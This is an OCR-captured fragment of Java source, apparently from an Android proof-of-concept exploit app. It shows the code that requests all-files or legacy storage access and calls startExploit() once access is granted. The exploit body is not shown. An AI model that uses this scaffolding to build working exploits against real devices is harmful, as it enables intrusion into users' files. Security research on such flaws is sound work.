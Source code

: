 ```java
    }  
    private void requestStoragePermissions() {  
        if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.R) {  
            // android 11+ - MANAGE_EXTERNAL_STORAGE  
            Log.i("PoC", "req MANAGE_EXTERNAL_STORAGE for android 11+");  
            try {  
                Intent intent = new Intent(Settings.ACTION_MANAGE_APP_ALL_FILES_ACCESS_PERMISSION);  
                intent.setData(Uri.parse("package:" + getPackageName()));  
                startActivityForResult(intent, MANAGE_STORAGE_CODE);  
            } catch (Exception e) {  
                Log.e("PoC", "failed to request MANAGE_EXTERNAL_STORAGE", e);  
                // fallback  
                requestLegacyPermissions();  
            }  
        } else {  
            // android 6-10  
            requestLegacyPermissions();  
        }  
    }  
    private void requestLegacyPermissions() {  
        Log.i("PoC", "requesting legacy storage permissions");  
        ActivityCompat.requestPermissions(this, new String[]{  
                Manifest.permission.READ_EXTERNAL_STORAGE,  
                Manifest.permission.WRITE_EXTERNAL_STORAGE  
        }, STORAGE_PERMISSION_CODE);  
    }  
  
    @Override  
    protected void onActivityResult(int requestCode, int resultCode, Intent data) {  
        super.onActivityResult(requestCode, resultCode, data);  
  
        if (requestCode == MANAGE_STORAGE_CODE) {  
            if (Build.VERSION.SDK_INT >= Build.VERSION_CODES.R) {  
                if (Environment.isExternalStorageManager()) {  
                    Log.i("PoC", "MANAGE_EXTERNAL_STORAGE granted");  
                    startExploit();  
                } else {  
                    Log.e("PoC", "MANAGE_EXTERNAL_STORAGE denied");  
                    Toast.makeText(this, "storage permis required for exploit", Toast.LENGTH_LONG).show();  
                    // try with legacy perms  
                    requestLegacyPermissions();  
                }  
            }        }    }  
    @Override  
    public void onRequestPermissionsResult(int requestCode, @NonNull String[] permissions, @NonNull int[] grantResults) {  
        super.onRequestPermissionsResult(requestCode, permissions, grantResults);  
  
        if (requestCode == NOTIFICATION_PERMISSION_CODE) {  
            if (grantResults.length > 0 && grantResults[0] == PackageManager.PERMISSION_GRANTED) {  
                Log.i("PoC", "notification perm granted");  
            } else {  
                Log.w("PoC", "notification perm denied");  
            }  
  
            // get storage  
            if (hasStoragePermissions()) {  
                startExploit();  
            } else {  
                requestStoragePermissions();  
```